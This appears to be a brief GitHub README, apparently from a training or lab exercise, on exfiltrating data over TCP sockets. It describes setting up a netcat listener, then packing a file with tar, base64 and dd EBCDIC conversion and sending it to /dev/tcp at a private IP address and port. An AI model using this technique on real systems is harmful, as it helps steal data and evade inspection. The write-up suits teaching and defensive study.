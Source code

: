 <h1>Data Exfiltration</h1>

<h2>Description</h2>
This repository will contain the method of performing data exfiltration using TCP Sockets.<br />

<h2>Exfiltration</h2>
<b>Step 1: Establish a NetCat Listener</b><br />
Establish a Netcat listener that will output received data to a file:
<p align="center">
  <img src="./imgs/netcat_listener.png"/>
</p><br/>
<b>Step 2: Transfer Data</b>
Next, we'll create an archive of the file using <i>tar zcf</i>, then we'll use <i>base64</i> to encode the data, lastly we'll create a backup <i>dd conv=ebcdic</i> and transfer it using TCP socket <i> > /dev/tcp/10.10.155.2/8080</i>: 
<p align="center">
  <img src="./imgs/data_transfer.png"/>
</p><br/>


<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>

